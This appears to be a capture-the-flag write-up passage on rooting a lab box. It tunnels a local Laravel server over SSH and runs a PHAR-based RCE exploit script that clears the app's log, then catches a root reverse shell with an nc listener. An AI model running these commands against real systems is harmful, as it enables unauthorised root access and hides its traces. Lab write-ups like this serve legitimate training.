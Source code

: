 Looking at what ports are listening on the box shows an open port that wasn't seen before: 8000
- Curl the port to find that it's a web server running Laravel
![[Pasted image 20210927103156.png]]
Do some googling to find and RCE with laravel....only problem is that this web server can only be connected to locally
- Fortunately, the Strapi user is allowed a shell -> setup an SSH tunnel
```bash
ssh -L8000:127.0.0.1:8000 -i id_rsa strapi@10.10.11.105
```
- Then just run sript as if the web server was running locally on port 8000 to get a shell as root (no user privesc??)
```bash
-> % python3 exploit.py http://localhost:8000/ 1.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```
On nc listener:
```bash
-> % nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.87] from (UNKNOWN) [10.10.11.105] 60946
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

Note: I don't think I did this box the intended way. There was a user, "developer", that had a user.txt in their home directory. But I skipped this, I guess don't run your (relatively) easily exploitable web server as root?